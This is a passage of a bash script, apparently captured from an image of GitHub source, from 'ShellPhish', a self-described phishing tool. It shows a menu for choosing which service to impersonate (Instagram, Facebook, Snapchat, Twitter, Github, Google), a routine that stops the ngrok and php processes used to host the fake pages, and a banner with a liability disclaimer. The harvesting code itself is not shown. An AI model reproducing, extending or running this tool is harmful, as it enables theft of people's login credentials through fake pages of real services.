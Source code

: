 menu() {

printf "\e[1;92m[\e[0m\e[1;77m1\e[0m\e[1;92m]\e[0m\e[1;93m Instagram\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m2\e[0m\e[1;92m]\e[0m\e[1;93m Facebook\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m3\e[0m\e[1;92m]\e[0m\e[1;93m Snapchat\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m4\e[0m\e[1;92m]\e[0m\e[1;93m Twitter\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m5\e[0m\e[1;92m]\e[0m\e[1;93m Github\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m6\e[0m\e[1;92m]\e[0m\e[1;93m Google\e[0m\n"
read -p $'\n\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Choose an option: \e[0m\en' option


if [[ $option == 1 ]]; then
server="instagram"
start

elif [[ $option == 2 ]]; then
server="facebook"
start
elif [[ $option == 3 ]]; then
server="snapchat"
start
elif [[ $option == 4 ]]; then
server="twitter"
start
elif [[ $option == 5 ]]; then
server="github"
start
elif [[ $option == 6 ]]; then
server="google"
start

else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
menu
fi
}

stop() {

checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
checkphp=$(ps aux | grep -o "php" | head -n1)
if [[ $checkngrok == *'ngrok'* ]]; then
pkill -f -2 ngrok > /dev/null 2>&1
fi
if [[ $checkphp == *'php'* ]]; then
pkill -f -2 php > /dev/null 2>&1
fi


}

banner() {

printf "\e[1;77m     _     _             _  _  ______   _      _        _      \e[0m\n"
printf "\e[1;77m    | |   | |           | || |(_____ \ | |    (_)      | |     \e[0m\n"
printf "\e[1;77m     \ \  | | _    ____ | || | _____) )| | _   _   ___ | | _   \e[0m\n"
printf "\e[1;77m      \ \ | || \  / _  )| || ||  ____/ | || \ | | /___)| || \  \e[0m\n"
printf "\e[1;77m  _____) )| | | |( (/ / | || || |      | | | || ||___ || | | | \e[0m\n"
printf "\e[1;77m (______/ |_| |_| \____)|_||_||_|      |_| |_||_|(___/ |_| |_| v1.1\e[0m\n"
printf "\n"
printf "\e[1;93m       .:.:.\e[0m\e[1;77m Phishing Tool coded by: @mohamed alrmram \e[0m\e[1;93m.:.:.\e[0m\n"
printf "\n"
printf "  \e[101m\e[1;77m:: Disclaimer: Developers assume no liability and are not    ::\e[0m\n"
printf "  \e[101m\e[1;77m:: responsible for any misuse or damage caused by ShellPhish ::\e[0m\n"
printf "\n"
}
